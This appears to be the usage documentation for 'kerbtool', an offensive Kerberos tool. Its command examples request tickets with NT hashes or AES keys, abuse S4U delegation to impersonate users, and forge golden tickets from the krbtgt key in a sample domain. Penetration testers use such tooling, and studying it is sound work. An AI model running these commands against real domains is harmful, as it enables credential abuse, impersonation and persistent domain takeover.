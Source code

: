 ```
  -t, --timeout               Dial timeout in seconds (default 5)
      
      --debug                 Enable debug logging
      --verbose               Enable verbose logging
  -v, --version               Show version


options:
      --spn <SPN>             SPN used to request or forge a service ticket of format "service/FQDN"
      --target <username>     Target username to request service ticket for
      --krb5-conf <file>      Read krb5.conf file and use as config
      --request-rc4           Ask for RC4 encrypted encPart of KDC REP, not the actual ticket (default false)
```

## AskTGT
Request a TGT using a password, NT Hash or AES key
```
/kerbtool --ask-tgt --user administrator --domain skynet-ops.corp --pass <pass>
/kerbtool --ask-tgt --user administrator --domain skynet-ops.corp --hash <NT Hash>
/kerbtool --ask-tgt --user administrator --domain skynet-ops.corp --aes-key <AES128/256 hex>
```

## AskST
Request a service ticket for a given SPN using password, NT Hash, AES key or a
CCache file with a TGT for the user when the environment variable KRB5CCNAME
is set:
```
./kerbtool --ask-st --user administrator --domain skynet-ops.corp --pass <pass> --spn cifs/dc01.skynet-ops.corp
./kerbtool --ask-st --user administrator --domain skynet-ops.corp --hash <NT Hash> --spn cifs/dc01.skynet-ops.corp
./kerbtool --ask-st --user administrator --domain skynet-ops.corp --aes-key <AES128/256 hex> --spn cifs/dc01.skynet-ops.corp
./kerbtool --ask-st --user administrator --domain skynet-ops.corp --no-pass --spn cifs/dc01.skynet-ops.corp
```

Override the service name/SPN using the `--alt-service` parameter when both
services are running from the same account.

Impersonate another user via S4U2Self and S4U2Proxy when abusing delegation
with the `--impersonate <username>` parameter.

## Forge tickets
Currently forging of Silver tickets, Golden tickets and Sapphire tickets are supported.

Forge a golden ticket using the krbtgt aes key:
```
./kerbtool --forge --target Administrator --domain skynet-ops.corp --sign-aes <krbtgt AES key> --domain-sid <S-1-5-21-...>
```

